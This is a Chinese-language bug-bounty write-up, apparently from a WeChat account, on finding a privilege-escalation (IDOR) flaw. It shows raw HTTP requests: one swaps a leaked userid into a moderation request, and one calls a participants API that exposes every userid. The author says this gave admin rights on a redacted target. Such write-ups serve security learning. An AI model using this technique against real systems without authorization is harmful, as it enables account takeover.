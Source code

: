 #  如何找到越权漏洞？   
 柠檬赏金猎人   2025-02-18 01:57  
  
   
  
流程大概如下：  
- • 不可预测的userid  
  
- • 寻找获取userid接口  
  
- • 替换userid  
  
- • 判断是否存在漏洞  
  
- • 交给你举一反三  
  
目标为 bounty.redacted.net。我决定在该目标上寻找漏洞，注册了一个帐户。正如我所想，该目标应用程序中有很多功能。我花了4-5小时分析每个功能及其不同的权限。完成分析后，我做了一些其他工作，并在第二天早上开始在目标上狩猎。  
  
首先，我创建了一个guestuser，因为这是最低权限，登陆后，我有编辑权限，但由于是guestuser，有很多限制。所以我想，我能否打破这些限制，做些什么？  
  
请求如下：  
```
POST /__/publish/6ac8f982–ef09324f80 HTTP/2Host: bounty.redacted.netCookie: S=1; __Secure-csrf=T3F9GJHDEUA0YBF6B3HF6User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:109.0) Gecko/20100101 Firefox/115.0Accept: */*Accept-Language: en-US,en;q=0.5Accept-Encoding: gzip, deflate, brContent-Type: application/jsonX-Cb-Csrf: T3F9GJHO6DPE4CF6B3HF6Authorization: Content-Length: 97Sec-Fetch-Dest: emptySec-Fetch-Mode: corsSec-Fetch-Site: same-originTe: trailersConnection: close[    {      "type":"moderation",      "command":"start",      "userid":"guest_90d501a7–9d61–4252–8044–0e7be8bc2d9d"    }]
```  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/OkRKg4J9smWqwqSDPe7ELVhmJt33K4wKNZy3xMQjLTNX8SrEgEW0JMaga4vs4OC1xmiaBJIFJLHodvwOj0kU1Sw/640?wx_fmt=png&from=appmsg "")  
  
问题是userid是不可预测的，所以我查看了我的burp http请求历史，发现了一个有趣的api端点，我可以毫无问题地获取每个用户的userid。api请求如下：  
```
GET /api/v1/participants/6ac8f982–ef09324f80 HTTP/2Host: bounty.redacted.netCookie: S=1; __Secure-csrf=T3F9GJHDEUA0YBF6B3HF6User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:109.0) Gecko/20100101 Firefox/115.0Accept: */*Accept-Language: en-US,en;q=0.5Accept-Encoding: gzip, deflate, brContent-Type: application/jsonX-Cb-Csrf: T3F9GJHO6DPE4CF6B3HF6Authorization: Content-Length: 97Sec-Fetch-Dest: emptySec-Fetch-Mode: corsSec-Fetch-Site: same-originTe: trailersConnection: close
```  
  
在这个请求中，它提供了所有不可预测的userid。我在第一个提到的请求中更改了userid，果然成功了，具备管理权限。  
  
  
  
   
  
仅限交流学习使用，如您在使用本工具或代码的过程中存在任何非法行为，您需自行  
承担相应后果，我们将不承担任何法律及连带责任。  
“如侵权请私聊公众号删文”。  
  
  
